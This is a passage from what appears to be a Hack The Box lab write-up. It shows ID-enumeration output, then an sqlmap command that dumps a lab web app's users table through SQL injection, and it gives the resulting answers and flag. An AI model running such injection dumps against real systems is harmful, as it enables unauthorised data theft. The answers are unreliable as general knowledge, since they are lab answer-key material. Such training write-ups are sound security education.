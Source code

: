 We get the following output:

```
Number found! 1
[{"id":"1","username":"admin","position":"1"}]
Number found! 2
[{"id":"2","username":"HTB-User-John","position":"2"}]
Number found! 3
[{"id":"3","username":"WebServices","position":"3"}]

```

Answer is:

```
WebServices
```

For the SQLI question, we can use `sqlmap`:

```
sqlmap -u 'http://IP:3003/?id=1' --dump
```

We get this output:

```
Database: htb
Table: users
[4 entries]
+---------+--------------------------------+------------+
| id      | username                       | position   |
+---------+--------------------------------+------------+
| 1       | admin                          | 1          |
| 2       | HTB-User-John                  | 2          |
| 3       | WebServices                    | 3          |
| 8374932 | HTB{THE_FL4G_FOR_SQLI_IS_H3RE} | 736373     |
+---------+--------------------------------+------------+
```

Flag is:

```
HTB{THE_FL4G_FOR_SQLI_IS_H3RE}
```